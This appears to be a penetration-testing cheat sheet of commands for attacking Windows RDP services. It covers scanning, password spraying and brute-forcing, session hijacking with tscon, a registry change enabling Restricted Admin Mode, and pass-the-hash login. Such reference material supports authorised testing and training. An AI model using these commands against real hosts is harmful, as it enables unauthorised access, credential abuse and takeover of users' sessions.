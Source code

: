# Nmap

```bash
nmap -sV -sC $IP -p3389 --script rdp*
nmap -sV -sC $IP -p3389 --packet-trace --disable-arp-ping -n
```

# [RDP Security Check](https://github.com/CiscoCXSecurity/rdp-sec-check.git)

```bash
./rdp-sec-check.pl $IP
```

# Initiate an RDP Session

```bash
xfreerdp /u:user /p:"P455w0rd!" /v:$IP
xfreerdp /cert-ignore /u:user /p:"Password" /v:$IP_TARGET
xfreerdp /cert-ignore /u:user /d:domain.com /p:"Password" /v:$IP_TARGET

# share a folder
xfreerdp /cert-ignore /u:user /d:domain.com /p:"Password" /v:$IP_TARGET /size:85% /kbd:0x0000040a +clipboard +drive:smbdfolder,/home/kali/Desktop/Tools
```
  
---

| **Command**                                                                                          | **Description**                                                                 |
| ---------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`                                 | Password spraying against the RDP service.                                      |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`                                          | Brute-forcing the RDP service.                                                  |
| `rdesktop -u admin -p password123 192.168.2.143`                                                     | Connect to the RDP service using `rdesktop` in Linux.                           |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`                                               | Impersonate a user without its password.                                        |
| `net start sessionhijack`                                                                            | Execute the RDP session hijack.                                                 |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable "Restricted Admin Mode" on the target Windows host.                      |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`                           | Use the Pass-The-Hash technique to login on the target host without a password. |
